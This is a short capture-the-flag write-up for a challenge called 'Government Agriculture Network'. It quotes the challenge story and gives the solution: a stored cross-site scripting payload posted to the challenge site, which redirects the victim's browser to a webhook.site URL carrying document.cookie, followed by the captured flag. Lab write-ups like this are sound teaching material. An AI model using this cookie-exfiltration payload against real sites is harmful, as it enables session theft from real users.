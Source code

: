 # CTF Name – Government Agriculture Network

* **Category:** easier
* **Points:** 2

## Challenge

Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the shareholders." You wonder if there is a similar concept here.

Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child.

The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity.

You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's  host to rescue it.

## Solution

Used ```webhook.site``` which creates a unique url for you. Any requests sent to that url are logged there. Then, made a post on ```https://govagriculture.web.ctfcompetition.com/``` with the following script ```<script>document.location="urlfromwebhook.site?stolenCookie="+document.cookie</script>```

```
The cookie has the following flag ```CTF{8aaa2f34b392b415601804c2f5f0f24e}```
```
